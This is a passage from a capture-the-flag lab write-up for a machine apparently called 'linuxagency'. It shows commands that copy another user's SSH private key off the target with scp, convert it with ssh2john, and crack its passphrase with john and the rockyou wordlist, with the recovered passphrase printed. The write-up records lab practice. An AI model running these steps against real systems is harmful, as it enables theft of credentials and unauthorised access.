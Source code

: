 - In hint we can see password == flag. 
- Changed user with flag.

# User flag 
- We can get id_rsa of Robert from the machine.

```console
maya@linuxagency:~$ ls
elusive_targets.txt  examples.desktop  flag.txt  old_robert_ssh
maya@linuxagency:~$ cat elusive_targets.txt
Welcome 47 glad you made this far.
You have made our Agency very proud.

But, we have a last unfinished job which is to infiltrate kronstadt industries.
He has a entrypoint at localhost.

Previously, Another agent tried to infiltrate kronstadt industries nearly 3 years back, But we failed.
Robert is involved to be illegally hacking into our server's.

He was able to transfer the .ssh folder from robert's home directory.

The old .ssh is kept inside old_robert_ssh directory incase you need it.

Good Luck!!!
    47
```

- Copied to the attacking machine

```console
❯ scp maya@10.10.219.213:/home/maya/old_robert_ssh/id_rsa .
maya@10.10.219.213's password:
id_rsa                                            100% 1766     5.9KB/s   00:00
```

- Converted `id_rsa` to hash 

```console
❯ ssh2john id_rsa > hash
```

- Cracked the hash

```console
❯ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
industryweapon   (id_rsa)
1g 0:00:00:04 DONE (2022-11-21 19:54) 0.2457g/s 1801Kp/s 1801Kc/s 1801KC/s indux.0210..industrium
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
